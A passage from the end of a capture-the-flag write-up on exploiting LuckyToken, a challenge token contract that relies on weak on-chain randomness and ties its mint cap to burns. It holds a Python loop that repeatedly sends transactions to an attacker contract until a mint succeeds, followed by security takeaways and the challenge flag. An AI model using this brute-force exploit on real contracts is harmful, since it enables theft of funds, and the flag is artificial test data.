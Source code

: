 This simplistic snippet tries to guess or shift the amount `_amount` until the pseudo-random `status` is `true` so that we can mint tokens. A more sophisticated approach systematically calls transfers to reliably produce burn or mint results as needed.

### Python Script for Batch Transactions

If block times allow, an attacker might spam transactions until the desired random outcome is achieved:

```python
import sys
import os

nonce_start = int(sys.argv[1])  # starting nonce
n = 100  # number of attempts

for i in range(n):
    pvkey = "0x1b2a2dc0f504c816a7b7...some_placeholder..." + str(i)
    cmd = (
        f"cast send --rpc-url $RPC_URL "
        f"--private-key {pvkey} "
        f"0xf5D6DBF41522D86A904791D9b0784149cB143bD5 " # attacker contract
        f"'go(address)' 0xc79FF5A0c740939Ab34Cb6226fC7055f85A7d237"  # LuckyToken
    )
    os.system(cmd)
```

In essence, repeated calls are made until you force the outcome you want, either to burn (boost `totalAmountBurned`) or to mint (profit from the newly raised cap).

---

## Key Takeaways

1. **Pseudo-Randomness Pitfalls**:  
   Relying on simple on-chain values (like `nonce`, blockhash, or block timestamp) for randomness is highly exploitable.

2. **Mint Limit Tied to Burn**:  
   A design that caps minting by the running total of burned tokens can be bypassed when a large supply is forcibly burned in repeated transfers.

3. **Beware of Large Unlock Events**:  
   Any “team tokens” or “vaulted liquidity” that can be moved after a certain condition can become an avenue for large-scale exploitation if it interacts with flawed logic.

4. **Meme Tokens Are Not Always Harmless**:  
   Even a “joke” token can pose serious security issues, especially if it integrates with real liquidity or third-party protocols.

---

## Flag

After performing these steps and successfully minting far more tokens than the original burn-mint logic intended, you’ll fulfill the challenge conditions and retrieve the flag:

```
rctf{lucky_f0r_y0u_m4yb3_h3h3_aec634b53e47a1026285e978}
```

